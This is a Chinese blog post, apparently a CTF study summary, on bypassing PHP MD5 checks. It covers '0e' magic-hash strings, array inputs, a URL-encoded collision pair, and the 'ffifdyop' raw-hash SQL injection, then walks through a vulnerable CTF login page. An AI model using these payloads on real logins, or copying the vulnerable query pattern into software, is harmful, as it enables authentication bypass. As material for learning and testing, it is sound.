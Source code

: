 ```yaml
---
title: "MD5绕过总结"
subtitle: ""
date: 2024-03-02T18:43:43+08:00
draft: false

tags: ["md5"]
categories: ["Bypass"]

---
```


### 常规0e绕过

- QNKCDZO

- 240610708

- s878926199a

- s155964671a

- s214587387a

- s214587387a

> 这些字符串的md5值都是0e开头，e代表科学计数法，这些值在php弱类型比较中`==`判断为相等

### 数组绕过

一个数组无法进行md5加密，可绕过php强类型`===`比较

### 强类型绕过

即md5碰撞

如题

```php
if((string)$_POST['a'] !== (string)$_POST['b'] && md5($_POST['a']) === md5($_POST['b']))
```

用一些md5值相等的字符串

```
M%C9h%FF%0E%E3%5C%20%95r%D4w%7Br%15%87%D3o%A7%B2%1B%DCV%B7J%3D%C0x%3E%7B%95%18%AF%BF%A2%00%A8%28K%F3n%8EKU%B3_Bu%93%D8Igm%A0%D1U%5D%83%60%FB_%07%FE%A2

M%C9h%FF%0E%E3%5C%20%95r%D4w%7Br%15%87%D3o%A7%B2%1B%DCV%B7J%3D%C0x%3E%7B%95%18%AF%BF%A2%02%A8%28K%F3n%8EKU%B3_Bu%93%D8Igm%A0%D1%D5%5D%83%60%FB_%07%FE%A2
```

### 特殊字符串ffifdyop

该字符串经过md5加密后：276f722736c95d99e921722cf9ed621c  

再转换为字符串即为：`'or'6<乱码>`

用途：

```
select * from admin where password=''or'6<乱码>'
```

相当于

```
select * from admin where password='' or true
```

可以用来实现sql注入

除此之外

`129581926211651571912466741651878684928`也可达到同样的效果

#### 实战

题目链接：http://ctf5.shiyanbar.com/web/houtai/ffifdyop.php

![](/img/MD5绕过总结/1.png)

注释中的源码如下

```php
 $password=$_POST['password'];

    $sql = "SELECT * FROM admin WHERE username = 'admin' and password = '".md5($password,true)."'";

    $result=mysqli_query($link,$sql);

        if(mysqli_num_rows($result)>0){

            echo 'flag is :'.$flag;

        }

        else{

            echo '密码错误!';

        }
```

简单介绍下`md5()`函数

```
md5(string,raw)
```

|参数|描述|

|:--:|:--:|

|string|必需，规定要计算的字符串|

|raw|可选，规定十六进制或二进制输出格式。默认False，32字符十六进制|

提交ffifdyop，使查询语句变成

```
select * from admin where username='admin' and password ='' or '6<乱码>'
```

实现sql注入

![](/img/MD5绕过总结/2.png)